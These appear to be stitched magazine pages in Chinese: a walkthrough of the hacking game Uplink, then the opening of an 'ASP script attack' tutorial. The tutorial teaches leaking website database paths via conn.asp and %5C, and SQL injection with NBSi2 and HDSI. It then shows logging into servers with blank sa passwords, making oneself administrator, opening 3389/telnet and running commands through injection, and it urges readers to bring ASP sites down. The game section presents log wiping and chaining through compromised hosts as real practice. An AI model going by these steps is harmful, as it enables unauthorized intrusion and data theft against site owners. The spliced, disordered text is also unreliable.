菜鸟的梦想是成为一名真正的黑客，可菜鸟终归是菜鸟。点“Options”按钮后，再点右下角的第2个按钮，可对屏幕、刷新率等各项进行设置。其默认的刷新率是60HZ；建议调整为最低75HZ，当然你的计算机配置较高时可以设置更高的刷新率，如图2。选定好“屏幕刷新率”后，点“Apply changes”（应用修改）即可；至于其它的选项一般不用设置，使用默认设置就可以（设置的最后2项免费版无法设置，完整版可以进行设置）；最后点“New User”按钮可注册新的用户。

梦想也终归是梦想！作为菜鸟，最大的悲哀莫过于没有条件使用各种各样的黑客工具，尝试入侵训练。有的是因为没有电脑，有的是因为无法上网，还有的是因为在网吧上网时间限制太多，而更多的则是因为自己掌握的知识不够，而又没有人来教。今天我就给各位读者带来了世界上著名的一款游戏——黑客精英。它可不是一般的游戏，而是来源于英国的一个黑客游戏。在游戏中你将扮演一个神通广大的黑客，在虚拟的电子世界中穿梭，窃取资料、破坏数据、修改档案，甚至还可以入侵银行、盗用资金……仿佛置身于一个真实的世界，破解世界各地的电脑系统（当然是虚拟的）。在游戏中既可以享受到游戏的乐趣，还能学习到很多的黑客知识，比如如何设置跳板入侵服务器、如何破解密码下载文件、如何突破防火墙等等网络知识和攻防手段，而这些方法及思路，即便是在今日，在黑客中也是一直沿用的。

黑客精英是一款英文版的游戏，我们可以到  
http://www.uplink.co.uk/cgi-bin/countdownmemset.cgi?Uplinkdemo.exe  
下载，解压后直接运行 uplink.exe 即可（该游戏在本期光盘中已经收录）。

## 一、注册帐号

黑客精英游戏虽然虚拟了世界各地的网络，并在此网络上入侵服务器、破解密码、删除文件，实际上该游戏为单机版游戏（其完整版可以在局域网中联网来玩），因此注册帐号并不复杂。

注册帐号的过程，是在游戏的 users 目录建立一个以注册号为文件名、以 usr 为扩展的文件，里面记录了注册用户的所有信息。程序启动后的界面，如图1，左下角显示的是已经注册的所有用户的用户名（如果是第一次登录当然为空）；选定已注册的用户后，点“Proceed”（确定）按钮即可登录。右下角有3个按钮，从上到下分别为“New User”（注册新用户）、“Options”（选项）和“Exit”（退出）。

图2

点“New User”按钮，弹出一对话框，是软件制造商的介绍（好像做广告），不要管它，点 OK 按钮。程序弹出一新窗口，如图3，选“register as an Agent”（注册一个间谍）按钮（由于我们的行为和间谍差不多，因此我简称为间谍），即注册一个用户的意思。然后又弹出一窗口，主要是对游戏的大体介绍。大体意思是：“gateway”代表我们自己的服务器，黑客组织给我们存入3000c钱（不知道是什么钱，难道是英镑？英国人真大方！），完成任务后我们的等级将上升等等。我们点“continue”（继续）……

图1

图3

又出现一个新的窗口，如图4，将鼠标放在“Enter your name”按钮的右边，在出现的长方形框中输入你想注册的用户名，我输入的是123；在“Enter your password”和“re type your password”按钮中重复输入2次密码，最后点“Done”（完成）按钮即可成功注册一个用户。接下来会弹出一个世界地图的窗口，让我们选择服务器所在的城市，如图5。

在图中我已经将所有的城市都用中文标出了，英斯科、洛杉矶等我们可以随意选择……我选择的是“Los Angeles”（洛杉矶），在洛杉矶城市的图标上点击一下，程序自动开始从服务器下载所需要的基本硬件和软件……然后显示“uplink operating system successfully started on gateway”。

成功登录后的主界面如图7所示。界面左上方显示的是游戏中的时间；右边是本机 IP 地址127.0.0.1；再往右为时间调节按钮，可调节游戏中时间速度。点击时间按钮最右边的3个箭头形状按钮可以使时间加速。再往右为 CPU 调节按钮，可根据需要调节这两个程序占用 CPU 的百分率。

在左下方有一系列功能按钮，点击卫星天线形状图标可打开查看工具软件；常用的密码破解、日志清除、反跟踪软件及复制文件、删除文件等工具都可在此打开。左下角的5个小按钮分别是：……

- 软件：可以查看游戏中主控机的 CPU 频率、内存空间及系统状态等信息；也可以查看账户中的可用资金等。
- 中间主要的工作区，分别是：
  1. Uplink Test Machine（被测试计算机）
  2. Uplink Internal Services System（Uplink 组织…）
  3. Uplink International Bank（…）
  4. InterNIC（…）
  5. Uplink Public Access Server（…）

右上方有一个世界地图，可以显示我们与服务器的连接情况；在此你可设置跳板；右下方是信息栏，可以在此读取任务信息和浏览邮件。

首先点击右下方的信箱看看我们的任务，共有两封邮件，点击左边的信箱看看，如图8。从邮件中可看到我们的任务是：连接并入侵一台名叫“Uplink Test Machine”的服务器，并且偷取服务器上的“uplinkt data file”文件，然后将偷取的“uplinkt data file”文件发给黑客组织，并告诉我们的信箱地址是：internal@uplink.net。

图8

## 二、购买入侵需要的工具软件

既然知道我们的任务了，那就开始行动吧！想必各位读者都知道，我们一味入侵别人的计算机都需要一定的软件，没有怎么办？当然是用 Google 或百度去搜索。游戏中可没有 Google，更没有百度，只好用钱去买了。什么——没存钱？你怎么忘了黑客组织刚才给我们的3000c钱。虽然不多，可买便宜的低版本软件还是足够我们用的。

图9

在图7中点击“Uplink Internal Services System”（是 Uplink 组织面向其成员的服务器），点击后自动与服务器建立联系，出现一登录窗口。刚才注册的用户名和密码显示在登录框的下面，点击用户名后再点击“Proceed”（开始）就可以登录了，登录后的界面如图9。

1. News Server（新闻服务器）：可以查看我们入侵服务器后，当地的新闻。  
2. Mission List（任务列表）：可在此浏览、接受任务。  
3. Software Upgrades（升级软件）：在此购买工具软件。  
4. Hardware Upgrades（升级硬件）：升级你的处理器、内存等配件。  
5. Gateway Upgrades：升级 Gateway，提升系统扩展能力。  
6. Rankings：查看你在组织内的排名。  
7. Help：帮助。  
8. Admin 系统管理：当以 Admin 身份登录时使用。

我们的首要任务是购买必要的软件。当你选择“Software Upgrades”（购买升级软件），点击后弹出一新窗口，如图10，显示了所有可以购买的软件名称、版本号、需要的钱和软件的大小。右下角有4个按钮，其作用分别是：

1. Purchase（购买）：在上面选择要购买的软件后点击按钮可购买软件。  
2. Next Version（下一个版本）：有的软件有多种版本，在此可选择不同的版本；版本越高越好，但价格越高。  
3. Prev Version（前一个版本）：点击按钮后可退后回到前一版本。  
4. Exit Market（退出购买）：不购买了。

图10

基本工具是 uplink 测试任务所必需的工具，所以你绝对需要在这些工具上投入足够的资金来购买，我们建议你立即购买这些工具：

1. Password Breaker V1.0：破解密码工具。  
2. Log Delete V1.0：清除日志工具，用于清除你入侵服务器的记录。  
3. Trace Tracker V2.0：反跟踪软件，可显示你被追踪的情况，帮助你在连接被发现前断开连接。

> 好，4.0版本将以奖励的形式显示剩余时间，但由于资金有限我们只能购买2.4.0版本。

选择好软件后点 Purchase（购买）按钮就可以了。由于我们初始时钱太少，只有3000块钱，因此不要选择高版本软件，只购买以上3个软件的低版本就可以了。我们需要的就是完成各种不同的黑客任务，赚更多的钱，购买更好的软件。购买完成后点击 Disconnect 断开连接，程序自动回到图7的主菜单。

## 四、实施入侵

在实际的入侵过程中，我们可以利用脚本注入、溢出、网页植入木马等方式得到肉鸡，然后利用一些代理工具设置成自己的攻击跳板，这样才能保证入侵者的安全。在真实的入侵中，许多高手都不会直接攻击服务器的，那样很容易暴露自己。因此最好的办法是利用肉鸡设置跳板后再入侵服务器，并且跳板设置得越多安全性就越好。不过缺点是跳板设置得太多了，有可能会影响自己的连接速度。在实际的入侵中最好设置3级以上的跳板。在黑客游戏中也是如此。为了自己的安全我们必须设置跳板：

## 1. 设置跳板

在图7中我们单击右上角的世界地图，地图将放大，如图11。游戏中现在可以使用的有6个服务器，都显示在地图上，我们可以通过点击来设置连接路线。从“Gateway”（代表自己的服务器）开始，然后到“Uplink International Bank”→“Uplink Public Access Server”→“InterNic”→“Uplink Internal Services Server Uplink”，最后才连接到目标计算机“Uplink test machine”（被测试计算机）。此连接方式可延缓追踪到我们的时间。设置好连接后点“save”（保存）按钮可以保存连接的设置，点“load”可以调出已保存的连接。经过以上多级跳板后，即使被入侵服务器发现，找到我们也需要很长的时间，到那时我们已经完成了任务。

## 2. 下载文件

设置完成后点击“Save”按钮可以保存当前连接情况，然后点“Connect”按钮进行连接。选择“Uplink test machine”（被测试计算机），在弹出新窗口中选择“start the test”（开始测试），可以看到一个要求输入账户和密码的登录窗口。可是我们没有密码（当然没有密码，如果有密码还用我们破解吗），怎么办？还记得我们刚才花钱购买的密码破解软件吧，当然是用它来破解了！

打开左下角的功能按钮，在“security”（安全）选项中找到“Trace-Tracker”（追踪跟踪），单击后，该程序自动运行并最小化在窗口的右下角，随时显示被追踪状况。然后我们在左下角功能按钮的“crackers”中找到“Password-Breaker”，如图12。单击运行后，再点击用户名输入框，“Password-Breaker”自动进行密码破解，如图13，很快将用户名为 Admin 的密码破解完毕。

然后我们点“Proceed”按钮进行登录，在出现的对话框中选择“Access fileserver”去下载文件，如图14。现在就可以看到我们需要下载的文件“Uplink test data”。打开左下角的功能按钮，再打开“file utilities”按钮，将下载文件所需要的程序“File_copier”拖到“Uplink test data”文件上，单击后程序自动下载“Uplink test data”文件。下载完毕后，点击左下角的第二个小按钮打开内存栏，在“Uplink test data”文件上点一下鼠标后松开，然后将鼠标移动到内存栏的空白处（没有文件的地方），双击鼠标即可将文件复制到内存栏。

图15

> 简言之，被动追踪和主动追踪有些类似现实中的公安（类似 MIB）对黑客的追查；如果你被定义为无辜，可能不会找到你。

游戏中也是一样，虽然被动追踪这种方式所要花费的时间很长，但是一旦被对方追查到，后果还是很严重的。你可以在断开与对方系统的连接前利用“Log Deleter”这个工具来删除你所留下的 Log 文件。记住，这是你每次行动的最后一步，也是必需的一步……在图14中选择“View Logs”，打开日志记录后，将“Log Deleter”拖到日志上，程序自动删除 Log 文件，随后点击“Disconnect”断开连接。

图16

图17

# 五、清除踪迹

很多黑客在入侵服务器后，都会被管理员发现。原因在于管理员可以通过 IDS（入侵检测系统）类软件以及分析系统日志文件等方法来追踪。管理员追踪方法有两种：

- 1. **Active Traces（主动追踪）**：入侵时被管理员发现后，立即通过追踪软件与分析工具定位入侵者，并根据 IP 等信息继续追查。若不及时断开连接，可能很快被锁定。
- 2. **Passive Traces（被动追踪）**：通过事后分析日志（Log）文件进行追踪。即使当时未被发现，日志也可能记录关键操作轨迹，因此行动后应及时清除日志。

断开连接后，点击右下方信箱并回复黑客组织来信，再通过“File, None attached”选择刚下载的 “Uplink test data” 作为附件发送。随后会收到“Mission complete（圆满完成了任务）”提示。由于是测试关，首次通过后再次进入通常不再需要破解密码，可直接登录下载文件。

图18

# 主题乐园

图19

图21

再次进入时必须重新破解密码。在测试关，我们可以多做练习，等熟练后再过后面的关。

说起来太麻烦，那我再给你介绍一个更好的方法。先注册一个用户，不要购买任何软件直接退出游戏……然后点“Start（开始）”按钮，重新登录后用户自动增加 1000000c 金钱。

# 六、挣钱秘籍

对于刚开始的玩家来说，可能都会有这个感觉，就是我们的钱太少了……这里介绍一种通过修改方式快速获得金钱的方法，并说明了新建用户、进入游戏、查找数值、修改数值等步骤。

# 七、升级硬件和软件

由于我们硬件太差，电脑速度太慢，不升级硬件有些工作根本无法完成……可以购买更好的 CPU、内存，并通过升级菜单进行处理器升级，系统提示需一定时间完成升级。

图20

图22

图23

图25

图24

在“security”（安全）选项中找到“Trace-Tracker”，单击后启动监视，跟踪监视对手的追踪情况；然后我们在左下角的功能按钮的“crackers”中找到“Password-Breaker”，再点击用户名输入框后，密码破解程序“Password-Breaker”即自动进行密码破解。时间过得飞快，密码破解完成后时间几乎到了，再去复制文件已经来不及，只好点击“Disconnect”按钮断开连接。连续多次破解密码、删除文件的工作都没有完成，看来以前的速度再用老的方法已不可能完成任务，只有想新办法了。

从理论上讲，要想不被对手追踪，第一，加快我们的破解速度；也就是提升游戏中服务器的硬件或软件。可是硬件已经升级到最高了，而软件方面没有新的密码破解软件；第二，加快鼠标动作，可是我们的动作就那么快了，这两条都几乎走不通；只有最后一条路——增加跳板个数。黑友们都知道入侵时使用的跳板越多，对手追踪到我们的时间越长；只要你有无数多的肉鸡，跳板可以任意增加，只要找到肉鸡一切问题都解决了。

现在是 2010 年 3 月 27 日 10 点 11 分，再看右边 CPU 已经升级，Turbo 200 Ghz，高档方法可升级其它硬件。

升级软件就很简单了，连接上“Uplink Internal Services System”（Uplink 组织面向其成员的服务器）后在“Software Upgrades”（升级软件）中购买，清除日志工具“Log Delete”买 4.0 版的；反跟踪软件买“Trace Tracker”；破解密码工具 Password Breaker V1.0 没有新的版本，就不用升级了；其它的工具暂时不要买了，以免占内存。软件和硬件升级完成后我们就可以过下面的关了。

# 正式任务

第一个测试任务完成后，我们就可以开始新的、正式的任务了。登录“Uplink Internal Services System”服务器后，选“Mission List”（任务列表）就可看到新的任务，如第一个任务。没完成所有的任务都是灰色的，无法选择，如图25。我们选择了“gain access to a rival system and steal research files”任务，就是让我们到对手电脑中去偷取文件。我们选定了此任务后，点“Accept”（同意）按钮即可选择此任务；然后点“Exit BBS”按钮退出任务；再选择窗口后即可正式开始我们的任务了。

点击左下角的信箱图标，打开黑客组织给我们的来信，可以看到让我们到“logical solutions internal services machine”上去下载一个文件，此服务器的 IP 地址为：440.534.548.934；文件名为：log-data-77888，然后将下载下来的文件发给 internal@zion-solutions.net，就可得到 1800c 钱。

好，我们开始工作，打开右侧的世界地图，可以看到黑客组织告诉我们的服务器“logical solutions internal services machine”，我们就按测试关的方法开始。打开左下角的功能按钮，现在可利用的服务器只有前面我们使用的 5 个，要想在游戏中过关，只好去找可以利用的服务器。不知是否还记得前面介绍过的“linternic”（信息中心），前面的如图7所示它可显示所有的服务器，我们应从它上面下手。点击图7中的“linternic”（信息中心），弹出一个新窗口，如图26，我们点“Browse/search”（查找和浏览）按钮，然后弹出一欢迎我们免费使用的窗口，如图27，我们直接点“ok”按钮（第一次使用出现，以后就不出现此提示了）。

再来到一个新窗口，如图28，这图中可以看到有的服务器前面有“+”号，而有的没有；没有“+”号的服务器就是在世界地图上显示出来的、我们现在可以使用的服务器。

我们将服务器前面的“+”加号去掉，然后再打开世界地图看看，取消“+”号的服务器在地图上也显示出来，连接按点……

图26

# 主题乐园

图27

将下载文件所需要的程序“File_copier”拖到“log-data-77888”文件上，单击后程序自动下载文件。下载完毕后点击左下角第 2 个小按钮打开内存栏，将下载的文件复制到内存栏上。由于我们的内存大小有限，如没有存放文件的空间，有可能造成下载失败。此时可打开左下角的功能按钮，点“File utilities”找到文件删除程序“File-Delete”拖到打开的内存栏上，将多余的文件删除后再重新下载即可。下载完成后退回到登录窗口，进入到日志记录处，将登录记录清除就完成任务了。

图28

图30

断开连接后，点击右下方的信箱打开黑客组织刚才给我们的来信，点“reply”（回复）给黑客组织回信，再点“File: None attached”打开附件窗口，选中刚才下载下来的文件“log-data-77888”。当你将附件发送给黑客组织，很快就可收到一封回信，它告诉我们：Mission complete（圆满地完成了任务），并给我们 1800C 钱。

图29

接下来的任务都是删除或者偷取服务器上的文件。经过一番艰苦战斗，终于到了最后一个任务。可是第2关的最后一个任务即将完成时，玩得高兴时突然跳出一个对话框。原来在游戏主页下载的免费版虽然没有时间限制，但是限制部分功能：只能玩到第2关，后面的只能去买完整版；并且不能联网玩。于是重新上网搜索完整版，最后终于在朋友处找到。

如图29，在图中可以看到可使用跳板。不过由于跳板太多，在地图上太密集，有些地方看不清，这时可以点击放大按钮将地图放大后，再利用鼠标或键盘上的左右移动键可以移动地图设置连接。建议不要设置太多，一般设置 10 多个跳板就可以。设置完成后点击连接按钮“Connect”，程序自动连接到目标服务器，先打开跟踪监视程序“Trace-Tracker”，监视对手的追踪情况，然后启动密码破解程序“Password-Breaker”，再点击用户名输入框后即可自动进行密码破解。密码破解完成后点“Proceed”登录，在服务器上仔细查找需要下载的文件“log-data-77888”，文件很多，必须仔细找。

图31

一个完整版，有了完整版可以继续过关了。

# 九、入侵国际大学

将完整版下载回来，完整版注册完后登录游戏时会出现这样的字样：“Enter code from Row j, Column l”，后面是一个方框要求 code，否则无法登录。此时参照游戏目录中的“Uplink.Codes”对照表（在游戏目录中文件名为：初次运行的 CODE.txt），打开此文本文件后可看到，横向是从 0 到 15，竖向为从 A 到 Z；上面英文对话的 Row（排）后是 j，Column（列）后面是 l；概略对照查一下应为 72，在方框输入 72 即可登录，其他的同免费下载版。

重新在完整版中将所有的 2 级任务完成后，可以选择 3 级任务了。当然还是登录“Uplink Internal Services System”（幽灵组织面向其成员的服务）：找到“Mission List”（任务列表）如图32，我选择了“generate a university degree for a friend”任务，大体意思是为一个朋友造一个假学位，点“Accept”按钮选择任务，点“Exit BBS”按钮退出。点击右下角黑客组织给我们的来信，如图33，仔细查看来信：需要入侵到某大学的服务器去修改一个人的资料，在个人能力一栏中添加“系统工程师”。入侵大学的服务器修改资料？这可是犯法的！不过看看给我们的 2800c 也值得，一咬牙就干这一次吧！唉！看样子假文凭是个世界性的问题，不过英国人作假手段比中国人更高些，他们是连大学的档案一起修改的，就很难查出文凭是真是假了！

闲话少说，我们开始工作。同其它关一样，当然是先建立跳板了，设置完跳板后点连接按钮“Connect”，程序自动连接到我们的目标服务器。先打开跟踪监视程序“Trace-Tracker”，然后启动密码破解程序“Password-Breaker”，再点击用户名输入框后，“Password-Breaker”即可自动进行密码破解。密码破解完成后，然后点“Proceed”按钮登录。如图34出现的一个窗口，是警告我们“这是政府网站，进入是违法的”，不要害怕，只是警告，点“log in”登录，然后出现一窗口，如图35，上面为“search records”（档案查询）按钮，下面为“view logs”按钮。

选择“search records”（档案查询），让我们输入需要在数据库中查询人的名字，如图36。

把鼠标放到输入框上输入想要查询的用户名“Tim Brown”，输入后点“ok”，我们所入侵的大学服务器自动在数据库中搜索。这时可看到档案中的照片和资料快速变化，一会儿工夫就将“Tim Brown”查询到了，如图37，瞧！这位学生，长得倒……

# 主题乐园

图37

还挺帅的，只是成绩不太好，电子学考了个 E 级，毕业资格和其它都没有。既然有人给钱我就帮他改一下，在“graduate qualifications（毕业资格）”一栏填入“certified systems engineer（系统工程师）”，在“other qualifications（其它资格）”中也填入“certified systems engineer”，然后点“commit（提交）”即可。

按“Esc”返回到登录窗口，在图35中点“View Logs”登录，用“Log Deleter V1.0”清除日志工具，清除侵入服务器的日志后，点击“Disconnect”按钮断开连接。与服务器断开连接后，打开黑客组织给我们的来信，点“reply（回复）”按钮，再点“send（发送）”按钮给黑客组织回信。很快黑客组织给我们发来了一封祝贺信，祝贺我们完成了任务，并将钱汇到了我们的账户上。

看着手中这封充满赞美之词的感谢信和银行账户中多出的 2800c 钱，我心中特别高兴。虽然当初打算只干一次就不干了，可是看着银行账户中多出的 2800c 钱，挣得又那么容易，为了挣到更多钱和积累更多经验，忍不住又接受了修改其它几个人档案资料的任务。不过今后的任务并不难，无非是将学生的名次和等级改一下。

# 主题乐园的第5关

然后我们就可以过 5 级的关了（不知道为什么没有看到第4级），可是第5关并不像前面的关那样容易了，不知什么原因，时间变化不明显，时间总是不够用。刚开始过关就被抓住，第二次给了一次警告信，如图38。黑客组织警告我们，说对最近的工作不满意，有可能降低我们的级别，黑客组织不能忍受失败！

图38

第二次又失手了，这次收到的不是警告信了，而是罚款单，如图39，让我去交纳 1000c 罚款。先告诉我们：开户行是“MAF industries international bank”（MAF 国际工业银行），IP 地址为 607.627.773.746，账号是 6850323，并且必须在 2010 年 4 月 2 日前交齐，否则可能被关押。看看现在的日期已经是 2010 年 3 月 25 日，赶紧去吧！

图39

我们先登录前面介绍过的“Uplink International Bank”（在线银行），登录后如果没有账户，可以建立和管理账号；点“Create New Account”可以建立新的账户。由于我们已经建立过账户，因此点“Manage Existing Account（管理现有的账户）”，出现登录对话框，如图41。

图40

图41

点登录对话框下面的账号自动登录，然后来到了如图42。在这里我们可以“View Account”（查看账目）、“Transfer money”（转账）、“Loans”（贷款），我们现在需要转账，因此点“Transfer money”（转账），出现如图43的窗口，在“Acc no. (from)”（自己的账号）处输入自己的账号：1373636，在“Bank IP (TO)”处输入 607.627.773.746，Acc No. (TO)（对方账号）处输入 689023，Amount（转账金额）处输入 1000，然后点“Transfer”（转账）按钮即可转账成功。

由于第5关难度大、时间紧，要面对防火墙、代理服务器的阻拦，而且还要面对矩阵密码等等，给我们带来了很大的困难，望黑友们克服困难成功过关。

我们打开右下角刚才给我们的警告信，回一封信很快就可收到回信，如图44，可以看到已经收到了我们交的罚款，已经不需要关押了。请各位朋友谨记——没有金钱是万万不能的。

# 十二、经验总结

虽然上面详细介绍了过关的方法，但有的菜鸟们可能说太多了，不简单明了，那我就简单总结一下过关的要点。实际需要过的关有很多，但基本就 4 种类型：

- 1. 窃取游戏系统：包括通过跳板连接到服务器、破解用户密码、下载文件到本地并清除日志（Log Delete）、以及伪装邮件发布病毒等。
- 2. 入侵系统并控制服务器：破解用户密码，删除文件并用日志清除工具清理痕迹，完成后发布病毒或发送邮件。
- 3. 修改档案信息：破解密码后在数据库中查找并修改目标人员姓名/档案，清除日志，完成任务后发送邮件。
- 4. 入侵银行：通常需要获得管理员信息（如管理员密码、管理员声音特征等），结合语音分析器等工具完成认证与转账操作，最终发送邮件。

# 常用工具

入侵中需要很多工具软件，因此我总结一下常用工具的作用功能。不过由于工具较多且都是英文帮助，因此可能有些地方不正确，仅供参考。

- 1. **VOICE ANALYSER（声音分析者）**：分析声音并进行模拟发音，主要用于入侵银行。
- 2. **Firewall BYPASS（绕过防火墙）**：配合连接分析工具使用，降低被发现风险。
- 3. **FIREWALL DISABLE（突破防火墙）**：直接突破防火墙，但较易被发现。
- 4. **PROXY BYPASS（绕过代理）**：与防火墙绕过类似，常与连接分析配合。
- 5. **PROXY DISABLE（突破代理）**：直接突破代理，易被发现。
- 6. **IP PROBE（IP 地址查询）**：查询目标服务器的安全状态（如防火墙/代理）。
- 7. **HUD Map Show Trace（显示地图追踪）**：显示追踪者情况。
- 8. **DICTIONARY HACKER（黑客字典）**：快速暴力破解密码，能力较弱。
- 9. **MONITOR BYPASS（绕过监视）**：绕过监视器监视。
- 10. **DECYPHER**：可用于破解邮件密码。
- 11. **Password Breaker**：常用密码破解工具。
- 12. **Log Delete v2**：清除日志工具，用于抹除入侵痕迹。

- 14、file:copyer，删除文件夹中的文件。
- 15、file:Deleter，删除文件夹。

# 主题乐园说明

本软件在 Windows XP 系统中运行良好，如果你使用的是 Windows 2000 系统，兼容性不太好；有时可能出现闪烁。可将 opengl32.dll 和 glu32.dll 文件删除（如不闪烁则不要删除，否则可能引起闪烁）。完整版与免费版相比有很大的区别，完整版可以在局域网中玩，而免费版没有此功能；完整版不限制关卡，而免费版只能玩到第 2 关……

游戏从破解密码到使用跳板，以及后面几关的防火墙等，与真实入侵很相似，特别是游戏中的背景音乐很像电影里的间谍片，因此玩起来特别紧张、刺激……

与真实入侵相似，这样你可以在此游戏中学到很多网络知识和黑客知识……最后将 10.0 万金钱补丁和完整版放到光盘中，祝黑友们玩好！

最后，也希望各位读者在由菜鸟晋级为黑客精英后，可以到 X 档案的论坛一起分享快乐！

# ASP 脚本攻防手册

光芒果

## 技术背景简介

随着互联网的飞速发展，各种各样的大小网站不断地涌现，在这些大小网站中，动态的网站以其实用性、多样性占据了绝对的优势。在动态网站中，站长多是以 ASP、PHP 和 JSP 脚本为系统架设的……

正是由于 ASP 系统在互联网上广泛的应用，针对 ASP 系统的脚本攻击最近闹得是红红火火。在这些攻击中，攻击者多是利用注入、暴库、旁注、cookies 欺骗等手段获取管理员权限……

也是各牛人们在服务器系统漏洞越来越少的今天入侵的另一妙法。本文通过攻防两方面的详细讲解及一些防范工具的安全问题，加上本人学习中的一些心得体会，力求让广大菜鸟对脚本攻击技术有一个全面的了解……

## 攻击篇

俗话说得好：知己知彼，百战不殆。有攻才有防，相信大家看完这部分后也能化众多的 ASP 站点在你面前轰然倒塌！好了！先来看我们攻击的总目的，那就是获取 webshell，然后提权！

- （一）暴库
- 常见的暴库方法有 conn.asp 法和 `%5C` 法。

## 1. conn.asp

我们先从 conn.asp 说起，conn.asp 是一个很古老的暴库方法，它是通过直接访问数据库连接文件 conn.asp 使服务器产生错误，通过服务器返回的错误信息提示暴出数据库地址……

> **小知识：什么是 webshell？**  
> webshell 就是一个相对成本较低廉的、具有在线编辑、删除、增加文件，执行程序及 SQL 语句等功能的脚本文件。


脚本攻击之所以会闹得红红火火，正是因为这门技术掌握简单，又加之许多傻瓜化工具的出现，深受广大菜鸟的喜爱……

> **小知识：什么是数据库连接文件 conn.asp？**  
> 数据库连接文件是数据库调用的一个文件，里面包含有被调用数据库的路径及数据库用户名、密码和 SQL 连接信息等内容。


> **小知识：什么是相对路径、绝对路径？**

通过路径名来定位目录或文件。Web 目录常见有相对路径与绝对路径之分。文中以 `conn.asp`、`inc` 目录与 `data` 目录为例，说明当数据库路径写成相对路径时，若执行目录发生变化会导致解析错误，从而触发数据库地址泄露。

为什么 `%5C` 大法能暴出数据库地址呢？并不是很明白。后来参考文章并测试 IIS 设置后，大致明白了 `%5C` 暴库的原理。

要明白 `%5C` 的作用，先要知道 `%5C` 是十六进制编码中的 `\`。直接在浏览器提交 `\` 时，IE 往往会转换为 `/`，而 `%5C` 不会被替换，解码后仍是 `\`。

很多 `conn.asp` 中会有语句：`dbpath=server.mappath("data/data.mdb")`。其中 `server.mappath` 负责把相对路径转换为绝对路径，转换成功后服务端才能正确读取数据库。

若 IIS 根目录为 `D:\wwwroot`，论坛位于 `bbs` 目录，数据库路径为 `data/data.mdb`，则解析后可能为 `D:\wwwroot\bbs\data\data.mdb`。

IIS 还涉及虚拟目录。虚拟目录可能映射到其他物理路径（如 `E:\bbs`），但访问上仍表现为站点根下子目录；这会影响路径解析与报错信息。

当 IIS 遇到 `%5C`（即 `\`）时，可能在路径解析中提前停止或错误回退，从而把原本路径解析成不存在的位置，最终触发报错并泄露数据库物理路径。


## 2. %5C

对一些网站，只需把站点 URL 最后一个 `/` 改为 `%5C`，就可能暴出站点数据库，如图 5 所示。

## 3. 暴库过程中的一些常见问题及解决方法

- 1. 暴库时不显示 xxx 错误，而是 HTTP 500 错误。通常与 IE 的错误显示设置有关；在“工具 → Internet 选项 → 高级”中关闭“显示友好 HTTP 错误信息”后再刷新可见详细报错（如图 6）。
- 2. 暴出的数据库是 `.asp` 结尾，似乎无法下载。文中说明可复制数据库地址，借助下载工具尝试获取。
- 3. 暴出的数据库中含有“#”号，下载不了。
- 4. ASP 的数据库下载回来后无法打开，或下载回来的数据库打开要密码。
- 5. 我在网上下载，没 ACCESS，怎么打开数据库？
- 6. 我遇到了一个超 BT 的网站，数据库中管理员密码全是 16/32 位无规律的密码，而且我一个个输入后都说我的密码不对，怎么回事啊？
- 7. 数据库明明是 .mdb 的我却下载不了。
- 8. 我用 `%5C` 暴库显示“处理 URL 错误，请与系统管理员联系”，用 conn.asp 暴又一片空白是因为……


## （二）注入

在众多针对脚本系统的攻击中，注入可谓是闹得最红火的攻击手段了。应用程序使用输入内容构造动态 SQL 语句访问数据库时，若未对输入进行充分过滤，就可能发生 SQL 注入攻击。SQL 注入可能导致攻击者绕过登录、在数据库中执行命令，甚至获取更高权限。

## 1. 工具篇

由于注入攻击的兴起，相关工具也越来越多。文中提到 NBSi2、HDSI 等工具，并介绍了安装、扫描注入点、分析字段与猜解表名列名等基本流程。


如果不知道具体地址，可以先找到扫描界面，填写网站 URL 进行全面扫描，再开始扫描，随后会列出可能存在注入地址及其可能性高低（如图 9）。

> 小技巧：如果在使用 NBSi2 扫描 www.xxx.com 时查不到或扫描结果较低，可以尝试带参数形式的地址（如 xxx.asp?id=xx），有时能得到更高可能性的注入点。


选择一个注入可能性高的注入点后，URL 会出现在下方方框中。点击“注入分析”进入分析界面，开始分析后可判断是否为数字型 + ACCESS 注入点，并可进一步猜测表名与字段。


接着可选择要猜解的表名（如 admin）和列名，进一步获取数据。若密码为 MD5 等加密形式，还需后续破解。文中还提到 HDSI 具备扫描功能，可在其扫描地址中填写站点 URL 进行后台地址与注入点搜索。

框中迅速闪过被扫描的地址，地址后面有一个用中括号括起来的数字，404 表示页面不存在，403 表示禁止访问，500 表示页面错误，200 表示页面存在，302 表示页面有转向。

扫描结束后，N-IDSi 会把可能存在的后台地址列到下方的框中（如图 12），如果没有扫描到后台则会列出你所填的扫描地址（如图 13）。

在检测到一个网站有 SQL 的注入点时，NBSi2 通常出现（如图 14）所示的界面。我们注意看这个界面与 ACCESS 注入时的不同，它在上面多了一个小框，写出了当前的数据库名、连接帐号及权限等信息。这里我是 sa 权限，比系统管理员权限还大！现在我们不去扫用户数据去干什么呢？当然有得玩了！我们先用 NBSi2 的 SQL 弱口令扫描功能看看，这次我很幸运，遇到了台 sa 连接且口令为空的机器，马上搬出 SQL 连接器吧，如图 15 所示，我们填上连接 IP，用户名 sa，密码为空，好了，连上去了，赶快执行命令把自己升为系统管理员吧！


然后再开个 3389 或 telnet，呵呵，恭喜你，又抓到一个小鸡了。如果没有 SQL 弱口令怎么办呢？没问题，我们还可以用 NBSi2 的另一个功能执行我们的命令。


虽然现在捉到的服务器 SQL 没有弱口令，但用 NBSi2 扫得的结果中我们知道当前用户是具有 sa 权限的，这时我们可以用 NBCommander 命令执行器执行命令。选择“扫描工具”->“NBCommander 命令执行器”，如图 16 所示。

然后来到了图 17 所示的 NBCommander 命令执行器界面。


好了，找到后台后，我们就可以用得到的用户和密码登录后台管理了，至于进了后台除了删文章、发公告或吓唬管理员等还有其他什么用，我们后面再说。

上面说的是针对 ASP+ACCESS 的注入，其实注入攻击最好玩的还是 SQL 注入。跟 ASP+ACCESS 的注入一样，ASP+MSSQL 的注入在经过 NBSi2 的“扫描->检测”后也可以直接去读数据库的信息，但对 SQL 的注入而言，这么做显然没什么诱惑，因为 SQL 的注入我们可以做更多的事。


在“注入地址”中输入注入点链接，并选择注入类型，然后勾选“尝试回显结果”及“执行 DOS 命令”项，并在“命令”中输入执行的系统命令。这里为查看服务器开启了什么系统服务，输入了 `netstat -an`，点“执行”后即可看到服务器此时打开的服务（图 18）。

